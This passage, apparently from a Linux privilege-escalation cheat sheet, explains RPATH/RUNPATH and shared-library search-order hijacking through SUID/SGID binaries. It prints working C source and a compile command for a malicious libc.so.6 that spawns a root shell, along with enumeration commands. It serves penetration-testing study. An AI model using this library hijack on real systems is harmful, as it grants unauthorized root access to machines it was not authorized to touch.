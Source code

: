 ```
objdump -x <SUID_BINARY> | grep -i "RPATH\|RUNPATH"
```

Then the aforementioned exploit code, or the
[following code](https://www.voidsecurity.in/2012/10/exploit-exercise-rpath-vulnerability.html)
to exploit more specifically the `libc.so` can be used to execute a shell with
the privileges of the `SUID` / `SGID` binary owner:

```c
// Compile using:
// gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic  libc.c -o libc.so.6
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
  char *file = SHELL;
  char *argv[] = {SHELL,0};
  setresuid(geteuid(),geteuid(), geteuid());
  execve(file,argv,0);
}
```

*Dynamic / shared library link order hijacking.*

If an user has the right to create or modify files in a directory present in
the dynamic linker search order, the loading of an arbitrary dynamic / shared
library by an `SUID` / `SGID` binary (or a binary executed with higher
privileges through `sudo`) could be induced.

The following scenarios may arise:
  - rights to overwrite a legitimate library loaded by the targeted
    `SUID` / `SGID` binary. May impact other programs loading the library and
    induce system instability.
  - rights to create a file in a directory taking precedence in the search
    order over the directory containing the legitimate library. May also impact
    other programs loading the library and induce system instability.
  - rights to create a file in a directory in the search order and the targeted
    `SUID` / `SGID` binary attempts to load a non-existing library.

The `ldd` utility can be used to enumerate the shared libraries imported by a
binary, while the `strace` utility can be used as a complement to trace the
eventual libraries loaded at runtime with calls to `dlopen`.

The aforementioned exploit code can, for example, be used to execute a shell
under the effective user id of root through a `SUID` / `SGID` binary. The
library should simply be placed in the targeted directory or as a replacement
of an existing library.

### Privilege escalation through sudo

Note that, contrary to `SUID` / `SGID` binaries, the `sudo` utility set both
the `effective uid (euid)` and the `real uid (ruid)` (to the `uid` of the user
whose identity is assumed through `sudo`).
